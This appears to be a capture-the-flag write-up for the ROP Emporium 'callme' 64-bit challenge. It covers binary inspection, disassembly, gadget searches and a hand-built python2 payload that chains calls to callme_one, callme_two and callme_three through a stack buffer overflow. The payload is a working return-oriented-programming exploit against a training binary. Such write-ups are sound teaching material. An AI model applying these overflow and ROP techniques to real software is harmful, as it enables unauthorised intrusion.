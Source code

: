 # callme

64bit of the challenge

The further we go on the challenges, the less I will explain in order not to repeat the same information. Feel free to search anything that isn't clear, I will do my best to always leave good pointers for further research.

## First moves

As usual, we want to check the file and see what we're handling.

`file`

```bash
└─$ file callme
callme: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=e8e49880bdcaeb9012c6de5f8002c72d8827ea4c, not stripped
```

This challenge also came with its own shared lib

```bash
└─$ file libcallme.so
libcallme.so: ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, BuildID[sha1]=be0ff85ee2d8ff280e7bc612bb2a2709737e8881, not stripped
```

`checksec`

```bash
└─$ checksec --file=callme
[*] '/home/kali/my_challenges/pwn/ropemporium/02-callme/64bit/callme'
    Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      No canary found
    NX:         NX enabled
    PIE:        No PIE (0x400000)
    RUNPATH:    b'.'
    Stripped:   No
```

with a little manual fuzzing, we can see it's vulnerable to buffer overflows.

## Lay of the land

We already did all the analysis we needed in the 32bit version. It's the same binary here so there is no need to re-analyize. We already know the functions to call, in what order, and their input.

There are three differences though:

1. The arguments are passed through registers instead of pushing them into the stack. You can see this happening in usefulFunction below (this is true for the first 6 arguments in the 64bit calling convention)
2. The input is now doubled, since it's 8 bytes instead of 4 bytes. (i.e instead of 0xdeadbeef, we will give it 0xdeadbeefdeadbeef and so on)
3. We need to be careful with the stack alignment. Some instructions in the 64bit calling convention require that the stack is 16byte-aligned. (e.x the instruction `moveaps`)

```python
                             **************************************************************
                             *                          FUNCTION                          *
                             **************************************************************
                             undefined usefulFunction()
             undefined         AL:1           <RETURN>
                             usefulFunction                                  XREF[2]:     00400a58, 00400b38(*)
        004008f2 55              PUSH       RBP
        004008f3 48 89 e5        MOV        RBP,RSP
        004008f6 ba 06 00        MOV        EDX,0x6
                 00 00
        004008fb be 05 00        MOV        ESI,0x5
                 00 00
        00400900 bf 04 00        MOV        EDI,0x4
                 00 00
        00400905 e8 e6 fd        CALL       <EXTERNAL>::callme_three                         undefined callme_three()
                 ff ff
        0040090a ba 06 00        MOV        EDX,0x6
                 00 00
        0040090f be 05 00        MOV        ESI,0x5
                 00 00
        00400914 bf 04 00        MOV        EDI,0x4
                 00 00
        00400919 e8 22 fe        CALL       <EXTERNAL>::callme_two                           undefined callme_two()
                 ff ff
        0040091e ba 06 00        MOV        EDX,0x6
                 00 00
        00400923 be 05 00        MOV        ESI,0x5
                 00 00
        00400928 bf 04 00        MOV        EDI,0x4
                 00 00
        0040092d e8 ee fd        CALL       <EXTERNAL>::callme_one                           undefined callme_one()
                 ff ff
        00400932 bf 01 00        MOV        EDI,0x1
                 00 00
        00400937 e8 14 fe        CALL       <EXTERNAL>::exit                                 void exit(int __status)
                 ff ff
                             -- Flow Override: CALL_RETURN (CALL_TERMINATOR)
```

```bash
└─$ ropper --file callme --search "pop rdi"
[INFO] Load gadgets from cache
[LOAD] loading... 100%
[LOAD] removing double gadgets... 100%
[INFO] Searching for gadgets: pop rdi

[INFO] File: callme
0x000000000040093c: pop rdi; pop rsi; pop rdx; ret;
0x00000000004009a3: pop rdi; ret;
```

`0x000000000040093c: pop rdi; pop rsi; pop rdx; ret;` This is a nice gadget for passing the arguments.

```bash
└─$ ropper --file callme --search "ret"
[INFO] Load gadgets from cache
[LOAD] loading... 100%
[LOAD] removing double gadgets... 100%
[INFO] Searching for gadgets: ret

[INFO] File: callme
0x00000000004006be: ret;
```

This ret gadget is in case we need to align the stack.

## Attack plan

1. Find offset to return address.
2. Find addresses of callme\_\*.
3. Find gadgets to pop arguments into registers
4. Write them into the stack in correct order.

## Exploit

### Manual

The payload structure will look like:
We used cyclic pattern for the offset and we found that it is at 40 this time around.

```bash
python2 -c '
print "a"*40 + \
      "gadget_pop_3" + \
      "arg1" + \
      "arg2" + \
      "arg3" + \
      "callme_one_addr" + \
      "gadget_pop_3" + \
      "arg1" + \
      "arg2" + \
      "arg3" + \
      "callme_two_addr" + \
      "gadget_pop_3" + \
      "arg1" + \
      "arg2" + \
      "arg3" + \
      "callme_three_addr" + \
      "optional: exit_address" \
' > payload
```

If we're planning to call anything in libc such as `system` It would be a good idea to insert a `ret` instruction to realign the stack just before calling a libc function.

```bash
python2 -c '
print "a"*40 + \
      "\x3c\x09\x40\x00\x00\x00\x00\x00" + \
      "\xef\xbe\xad\xde\xef\xbe\xad\xde" + \
      "\xbe\xba\xfe\xca\xbe\xba\xfe\xca" + \
      "\x0d\xf0\x0d\xd0\x0d\xf0\x0d\xd0" + \
      "\x20\x07\x40\x00\x00\x00\x00\x00" + \
      "\x3c\x09\x40\x00\x00\x00\x00\x00" + \
      "\xef\xbe\xad\xde\xef\xbe\xad\xde" + \
      "\xbe\xba\xfe\xca\xbe\xba\xfe\xca" + \
      "\x0d\xf0\x0d\xd0\x0d\xf0\x0d\xd0" + \
      "\x40\x07\x40\x00\x00\x00\x00\x00" + \
      "\x3c\x09\x40\x00\x00\x00\x00\x00" + \
      "\xef\xbe\xad\xde\xef\xbe\xad\xde" + \
      "\xbe\xba\xfe\xca\xbe\xba\xfe\xca" + \
      "\x0d\xf0\x0d\xd0\x0d\xf0\x0d\xd0" + \
      "\xf0\x06\x40\x00\x00\x00\x00\x00" + \
      "CCCCCCCC" \
' > payload
```

Probably the last time I'm writing this manually... BUT it really cemented the learning by doing so!

### Pwntools

Check out `exploit.py` and `exploit_rop.py`.
